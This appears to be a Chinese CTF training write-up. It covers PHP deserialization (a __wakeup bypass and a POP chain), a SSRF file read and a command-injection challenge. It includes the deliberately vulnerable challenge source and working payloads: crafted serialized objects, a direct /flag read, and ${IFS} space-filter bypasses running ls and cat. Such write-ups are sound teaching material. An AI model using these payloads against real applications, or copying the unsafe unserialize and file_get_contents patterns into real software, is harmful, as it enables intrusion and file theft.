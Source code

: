 # NK培训 反序列化
## weakup.php
```
 <?php

include "flag.php";
highlight_file(__FILE__);

class Name{
    public $username = 'nonono';
    public $password = 'yesyes';
    public function __construct($username,$password){
    // 在创建对象时候初始化对象，一般用于对变量赋初值。
        $this->username = $username;
        $this->password = $password;
    }
    function __wakeup(){
    // 反序列化恢复对象之前调用该方法
        $this->username = 'guest';
    }
    function __destruct(){
    // 当对象所在函数调用完毕后执行
        if ($this->password != 100) {
            echo "</br>NO!!!hacker!!!</br>";
            echo "You name is: ";
            echo $this->username;echo "</br>";
            echo "You password is: ";
            echo $this->password;echo "</br>";
            die();
        }
        var_dump($this->username);
        if ($this->username === 'admin') {
            global $flag;
            echo $flag;
        }else{
            echo "</br>hello my friend~~</br>sorry i can't give you the flag!";
            die();
        }
    }
}

$a = unserialize($_GET['un']);
?> 
```
给username传参admin让他echo $flag，然后给password传参100让他不触发hacker，但是反序列化会触发wakeup魔术方法给username传参guest，所以要绕过weakup
> 当反序列化字符串中，表示属性个数的值⼤于真实属性个数时，会绕过 __wakeup 函数的执⾏。

```
$a=new Name;
$a->username='admin';
$a->password=100;
```
传参
`O:4:"Name":3:{s:8:"username";s:5:"admin";s:8:"password";i:100;}`
## pop.php
```
 <?php
highlight_file(__FILE__);

class blue
{
    public $b1;
    public $b2;

    function eval() {
        echo new $this->b1($this->b2);
    }

    public function __invoke()
    {
        $this->b1->blue();
    }
}

class red
{
    public $r1;

    public function __destruct()
    {
        echo $this->r1 . '0xff0000';
    }

    public function execute()
    {
        ($this->r1)();
    }

    public function __call($a, $b)
    {
        echo $this->r1->getFlag();
    }

}

class white
{
    public $w;

    public function __toString()
    {
        $this->w->execute();
        return 'hello';
    }
}
class color
{
    public $c1;

    public function execute()
    {
        ($this->c1)();
    }

    public function getFlag()
    {
        echo file_get_contents($this->c1);
    }

}

unserialize($_POST['cmd']); 
```
反序列化触发red的destruct魔术执行了 echo $this->r1 . '0xff0000';触发white的toString魔术，执行了color的execute函数，触发了blue的invoke魔术方法，执行了blue这个不存在的函数，触发了red的call魔术方法，最后调用getFlag函数。
pop链：
`unserialize()->red->__destruct()->white->__toString()->color->run()->blue->__invoke()->red->__call()->color->get_flag()->file_get_contents()`
```
$a=new red();
$a->r1=new white();
$a->r1->w=new color();
$a->r1->w->c1=new blue();
$a->r1->w->c1->b1=new red();
$a->r1->w->c1->b1->r1=new color();
$a->r1->w->c1->b1->r1->c1='flag.txt';
```
传参：
O:3:"red":1:{s:2:"r1";O:5:"white":1:{s:1:"w";O:5:"color":1:{s:2:"c1";O:4:"blue":2:{s:2:"b1";O:3:"red":1:{s:2:"r1";O:5:"color":1:{s:2:"c1";s:8:"flag.txt";}}s:2:"b2";N;}}}}
# NK ssrf
##  [NISACTF 2022]easyssrf
![5c4931e9f0e49a66858c0203fa07eb27.png](https://cdn.nlark.com/yuque/0/2024/png/39174886/1705688725275-d1c901a5-d4b1-4d15-afbd-e15a5f9a1313.png#averageHue=%23d9bb98&clientId=ude0c6653-7bc0-4&from=paste&height=588&id=uc6d41b00&originHeight=735&originWidth=1733&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=32927&status=done&style=none&taskId=u81969606-e651-4c05-9899-516de1429c1&title=&width=1386.4)
随便注入看到提示“路径”
![2029cbc055e70c025c78ed9489aa3407.png](https://cdn.nlark.com/yuque/0/2024/png/39174886/1705688769134-8ea82da5-5faf-48b2-81dd-a39512ea9c48.png#averageHue=%23fefefe&clientId=ude0c6653-7bc0-4&from=paste&height=320&id=ub45f98cd&originHeight=400&originWidth=822&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=10032&status=done&style=none&taskId=ue4d3994f-6bf6-4868-9ec7-a4ea01f9a3c&title=&width=657.6)
输入flag，得到提示/fl4g
![a4588b0e7e54f6fb7ddf4dcd37830827.png](https://cdn.nlark.com/yuque/0/2024/png/39174886/1705688822735-b48c99a2-9129-48c3-8e41-c301d2fccda5.png#averageHue=%23fefefe&clientId=ude0c6653-7bc0-4&from=paste&height=310&id=u7ae3432f&originHeight=387&originWidth=794&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=12886&status=done&style=none&taskId=u1377da13-0b00-4401-bcc9-5d0bee3dfe8&title=&width=635.2)
尝试读取file:///fl4g，进入下一层
![47d6d3da9ffb94922c989bb6102725dd.png](https://cdn.nlark.com/yuque/0/2024/png/39174886/1705688923477-95515f97-bbd6-4cc6-a62b-8f78777c77e1.png#averageHue=%23fefefe&clientId=ude0c6653-7bc0-4&from=paste&height=369&id=u6da497ac&originHeight=461&originWidth=837&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=18196&status=done&style=none&taskId=uce49567d-94dd-4004-a2be-49ea779ab52&title=&width=669.6)
```
 <?php

highlight_file(__FILE__);
error_reporting(0);

$file = $_GET["file"];
if (stristr($file, "file")){
  die("你败了.");
}

//flag in /flag
echo file_get_contents($file); 
```
提示flag in /flag
payload：?file=/flag
得到flag
![c4b65036969ed591861f95df6266712c.png](https://cdn.nlark.com/yuque/0/2024/png/39174886/1705689044169-ff371f47-cc82-4ca1-8006-29d80ab3b28d.png#averageHue=%23fdfcfc&clientId=ude0c6653-7bc0-4&from=paste&height=238&id=u51d7f7f3&originHeight=298&originWidth=854&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=20294&status=done&style=none&taskId=u68a8ff2d-f15f-488d-bbb3-458f4ec59f3&title=&width=683.2)
# NSS刷题
##  [SWPUCTF 2021 新生赛]babyrce  
![d158faebb4879920756ac085eb608bc9.png](https://cdn.nlark.com/yuque/0/2024/png/39174886/1705689509770-88f42c7c-f265-44a1-9295-5ec41052073a.png#averageHue=%23fdfcfb&clientId=u414dcd44-e1b9-4&from=paste&height=214&id=u76e60b84&originHeight=268&originWidth=523&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=19855&status=done&style=none&taskId=u15bfdbe4-8791-45c7-9677-25d72b4c79a&title=&width=418.4)
构造cookie：admin=1
![c31fdd0100ca5f908f4c1fd005562a43.png](https://cdn.nlark.com/yuque/0/2024/png/39174886/1705689542926-7838214f-5b0d-45cd-8739-39b1c68bb07a.png#averageHue=%23fdfcfa&clientId=u414dcd44-e1b9-4&from=paste&height=218&id=u4b3b5b76&originHeight=272&originWidth=487&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=23259&status=done&style=none&taskId=u6ad65732-5152-429c-922f-b1c8b015224&title=&width=389.6)
![398295ef74168728c9119179fab9573f.png](https://cdn.nlark.com/yuque/0/2024/png/39174886/1705689567202-3a539d59-a30e-43f0-b2f4-341640b1a775.png#averageHue=%23fefefd&clientId=u414dcd44-e1b9-4&from=paste&height=250&id=u8a536c18&originHeight=312&originWidth=352&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=15339&status=done&style=none&taskId=u4f865c7c-0ca2-49d8-ab08-46ae461cee3&title=&width=281.6)
if(preg_match("/ /", $ip)){过滤了空格
用${IFS}绕过
payload1：?url=ls${IFS}/
![73506a5d738ca3c81b36b029dc802384.png](https://cdn.nlark.com/yuque/0/2024/png/39174886/1705689682241-00679ae0-e15a-4a10-84b3-46fce3f79329.png#averageHue=%23fcfcfb&clientId=u414dcd44-e1b9-4&from=paste&height=270&id=ue86b2fd0&originHeight=338&originWidth=1082&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=26879&status=done&style=none&taskId=u0c1b1a92-a99b-4859-8f12-a345c595df4&title=&width=865.6)
payload2：?url=cat${IFS}/flllllaaaaaaggggggg
![7fc4fc4b135de861d6c51dd46e248679.png](https://cdn.nlark.com/yuque/0/2024/png/39174886/1705689742897-7b37b78e-f99f-445a-8196-373777152cdf.png#averageHue=%23fcfbfb&clientId=u414dcd44-e1b9-4&from=paste&height=257&id=u3fe48010&originHeight=321&originWidth=570&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=22786&status=done&style=none&taskId=u1352f5f6-b35e-4d7d-b440-204579c6aa3&title=&width=456)
